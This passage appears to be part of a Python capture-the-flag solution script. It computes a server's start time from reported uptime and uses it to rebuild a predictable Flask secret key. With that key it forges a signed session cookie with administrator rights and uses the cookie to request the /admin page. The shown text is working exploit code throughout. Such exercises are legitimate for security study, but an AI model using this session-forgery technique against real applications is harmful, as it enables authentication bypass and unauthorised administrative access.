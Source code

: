 ```python
    if len(time_parts) == 3:
        hours, minutes, seconds = map(int, time_parts)
        uptime = timedelta(hours=hours, minutes=minutes, seconds=seconds)
    elif len(time_parts) == 2:
        minutes, seconds = map(int, time_parts)
        uptime = timedelta(minutes=minutes, seconds=seconds)
    else:
        print('Unexpected uptime format')
        exit()

    # Convert current time string to datetime
    current_time = datetime.strptime(current_time_str, '%Y-%m-%d %H:%M:%S')

    # Calculate server start time
    server_start_time = current_time - uptime
    server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')

    return server_start_str

# Step 2: Reconstruct the secret key
def get_secure_key(server_start_str):
    secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
    return secure_key

# Step 3: Forge session data
def forge_session_cookie(secure_key):
    app = Flask(__name__)
    app.secret_key = secure_key

    session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

    # The secret UUID used in the application
    secret_uuid = uuid.UUID('31333337-1337-1337-1337-133713371337')
    admin_uid = str(uuid.uuid5(secret_uuid, 'administrator'))

    session_data = {
        'username': 'administrator',
        'uid': admin_uid,
        'is_admin': True
    }

    session_cookie = session_serializer.dumps(session_data)
    return session_cookie

# Step 4: Access the admin route with the forged session
def get_flag(session_cookie):
    cookies = {
        'session': session_cookie
    }

    admin_url = f'{base_url}/admin'
    admin_response = requests.get(admin_url, cookies=cookies)

    if admin_response.status_code == 200:
        print('Flag:', admin_response.text)
    else:
        print('Failed to retrieve flag, status code:', admin_response.status_code)
        print('Response:', admin_response.text)

if __name__ == '__main__':
    print('[*] Retrieving server status...')
    server_start_str = get_server_status()
    print('[*] Server start time string:', server_start_str)
```